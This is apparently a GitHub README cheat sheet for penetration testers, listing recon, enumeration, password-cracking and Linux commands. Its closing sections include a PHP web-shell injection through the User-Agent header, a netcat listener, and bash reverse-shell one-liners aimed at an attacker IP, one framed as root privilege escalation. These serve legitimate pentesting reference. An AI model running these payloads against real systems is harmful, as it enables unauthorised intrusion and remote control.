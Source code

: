 # Pentester's Cheat Sheet
Quick reference guide to all things pentest.



## Recon
### Nmap
Let's look for those open ports and export the output to a specified directory using `nmap`.
```
nmap -sV -sC -vv -oN ./scan [ip_address]
```

### Dirb
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses. DIRB’s main purpose is to help in professional web application auditing. 
```
dirb http://[ip or domain name]/[optional directories] [path_to_wordlist]
```

### SMBMap
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.
```
smbmap -H [ip_address]
```
If an error is returned, try the `-u` switch and declare a username.
```
smbmap -H [ip_address] -u test
```



## Enumeration
### LinPEAS
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
```
# 1. Copy over the LinPEAS script over OpenSSH using ~scp~ 
scp [LinPEAS_file_path] [user]@[ip_address]:[file_path] <-- Psst! /dev/shm is a great place

# 2. Change directory to ensure file transfer was successful and set file as executable 
chmod +x [file_name].sh

# 3. Now its time to let LinPEAS work its magic and find some escalation vectors. Run the following:
./linpeas.sh | tee linlog.txt

For more information, check out LinPEAS Github: https://github.com/carlospolop/PEASS-ng/
```



## Cracking
### Hydra
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

> Hydra ssh
```
hydra -l [username] -P [wordlist] [ip_address] ssh
```

> Hydra http-post-form
```
hydra -l [username] -P [path_to_wordlist] [target_ip] http-post-form "/[directory]:[user_param]=^USER^&[password_param]=^PASS^:[error_message]"
```

### John
John the Ripper is a tool designed to help systems administrators to find weak (easy to guess or crack through brute force) passwords, and even automatically mail users warning them about it, if it is desired.

Run private SSH key against ssh2john to produce a new hash file. Next, crack the hash using specified wordlist. This should provid 
a password for password protected private keys. 

> ssh2john

For password protected private keys, convert the RSA key into a readable hash file for John to crack. 
```
ssh2john [key_id_rsa] > [new_file_name]
```
> John
```
john [path_to_file] --wordlist=[path to wordlist]
```


## Exploits
### SearchSploit
Exploit Database Archive Search After locating the exploit, copy it into the current directory.
```
searchsploit -m [exploit_file_path]
```



## Basic Linux Commands

- List directory, show hidden, and permissions files
```
ls -la
```

- Change Permissions for a file or directory:
```
chmod ### [file] or [directory]
```

- Need to change a file to an executable?
```
chmod +x [path_to_file | file_name]
```

- Another way of changing permissions over a directory is:
```
chown [user_name] [dir]
```

- Find files with SUID bit set:
```
find / -perm /4000
```
> Or (if using is in sudoers file).
```
sudo -l
```
- Open and listen on a port using `nc`. Now you're ready to execute that reverse shell.
```
nc -lvp [port_number]
```


## Random Tips & Tricks
### RSA Keys
RSA Keys only like to be read by authenticated Users. Groups and others.. not so much. Be sure to change permissions to:
```
chmod 600 [RSA_Key_file_name]
```

### User Agents
Somestimes PHP can be passed in through request headers, specifically the User-Agent. If successful we can pass in an ecoded web shell one-liner via the `c` parameter. 
```
curl [ip or domain name] -H "User-Agent:<?php system(\$_GET['c']); ?>"
```

### Interactive Shell
Maybe you need to switch users, maybe you prefer BASH - either way you need to spawn an interactive shell. Also, `echo $0` will inform you of which shell you're currently using. 
```
python -c "import pty;pty.spawn('/bin/bash')"
```

### Python HTTP Server
```
sudo python -m http.server 80
```

### Bash Reverse Shell
```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
> If there's a script that is executed by root, modifing the script file may be a priv escalation:
```
bash -i >& /dev/tcp/[attack_ip]/[attack_port] 0>&1; 
```